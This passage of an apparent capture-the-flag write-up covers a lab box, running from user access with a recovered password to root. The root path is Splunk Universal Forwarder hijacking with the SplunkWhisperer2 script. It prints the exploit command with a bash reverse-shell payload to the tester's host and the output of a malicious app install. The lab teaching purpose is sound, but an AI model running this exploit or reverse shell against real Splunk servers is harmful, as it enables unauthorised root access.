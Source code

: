 ![passwd](/path/to/shaun/password "Rock 'n' Roll!")

If you list the directories in `/home`, you will see that there is a user called `shaun`. If you try to use `su shaun` and copy-paste that password, you will be `shaun` and you can read the `user.txt` from `/home/shaun/user.txt`

>Onward ye old hacker!

------------------------------------------------------------

## Path to root:

### Enumeration:

Do you remember the `Splunk` service that we saw in the nmap scan? Yeah, let's take a look at that.

If you type in the URL of a browser `10.10.10.209:8089`, you will see that you have to accept an SSL certificate. Go ahead and accept it! You'll then be redirected to the `Splunkd` web page.

![img](/path/to/splunkd/webpage "What the splunk!?")

If you try to check the `services` tab, you'll be required to authenticate. The only set of credentials that we have is `shaun:Guitar123`; if you try that set, you'll get in.

Moreover, if you run `ps aux | grep splunk` on the box, you'll see that `splunk` is running as root. So, it's worth checking for a privilege escalation route from this service.

```
root        1132  0.3  2.5 294628 102292 ?       Sl   Okt17   6:13 splunkd -p 8089 start
root        1134  0.0  0.3  77664 15620 ?        Ss   Okt17   0:00 [splunkd pid=1132] splunkd -p 8089 start [process-runner]
```

### Splunk Universal Forwarder (UF) Hijacking:

After searching for a while on google, I came across this particular [blog](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/) post along with its referenced github.

This blog is explaining a technique that temporarily changes the `Splunk UF` settings to make it use an attacker controlled server, allowing the attacker to deploy any malicious application to be run as the user running the `Splunk` service. 

Copy the code into your own python script or clone the repo, and run the script providing a reverse-shell payload from [`PayloadAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp).

>Don't forget to setup the listener!

```shell
$ python3 ape.py --host 10.10.10.209 --lhost 10.10.xx.xx --username 'shaun' --password 'Guitar123' --payload 'bash -c "bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1"' --payload-file "runme.sh"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpjfongrmj.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.xx.xx:8181/
10.10.10.209 - - [18/Oct/2020 14:03:31] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```
